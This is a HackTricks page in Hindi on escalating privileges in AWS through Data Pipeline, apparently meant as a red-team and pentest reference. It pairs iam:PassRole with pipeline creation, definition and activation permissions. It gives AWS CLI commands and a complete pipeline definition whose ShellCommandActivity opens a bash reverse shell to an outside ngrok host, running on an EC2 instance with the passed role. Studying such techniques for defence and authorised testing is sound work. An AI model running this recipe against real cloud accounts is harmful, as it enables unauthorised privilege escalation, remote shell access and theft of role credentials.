 # AWS - Datapipeline Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

एक हमलावर जिसके पास **`iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition,`** और **`datapipeline:ActivatePipeline`** अनुमतियां हों, वह एक पाइपलाइन बनाकर और उसे अपडेट करके अधिकार बढ़ा सकता है ताकि कोई भी मनमाना AWS CLI कमांड चलाया जा सके या अन्य संसाधन बनाए जा सकें, या तो एक बार या एक अंतराल पर, उस भूमिका की अनुमतियों के साथ जो पास की गई थी।
```bash
aws datapipeline create-pipeline --name my_pipeline \
--unique-id unique_string
```
जो एक खाली पाइपलाइन बनाएगा। फिर हमलावर को **पाइपलाइन की परिभाषा को अपडेट करने** की आवश्यकता होती है ताकि यह बताया जा सके कि इसे क्या करना है, इस तरह के कमांड के साथ:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **role** एक ऐसा role होना चाहिए जिसे datapipeline.amazonaws.com द्वारा मान्यता प्राप्त हो और **लाइन 28** में role एक ऐसा role होना चाहिए जिसे ec2.amazonaws.com द्वारा मान्यता प्राप्त हो साथ ही EC2 प्रोफाइल इंस्टेंस के साथ।

इसके अलावा, EC2 इंस्टेंस केवल उसी role तक पहुँच प्राप्त कर सकेगा जिसे EC2 इंस्टेंस द्वारा मान्यता प्राप्त हो (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
```markdown
जहां **पाइपलाइन परिभाषा फ़ाइल में एक निर्देश होता है जो कमांड चलाने का या AWS API का उपयोग करके संसाधन बनाने का आदेश देता है** जो हमलावर को अतिरिक्त विशेषाधिकार प्राप्त करने में मदद कर सकता है।

**संभावित प्रभाव:** ec2 सेवा भूमिका के लिए सीधा privesc निर्दिष्ट।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
```
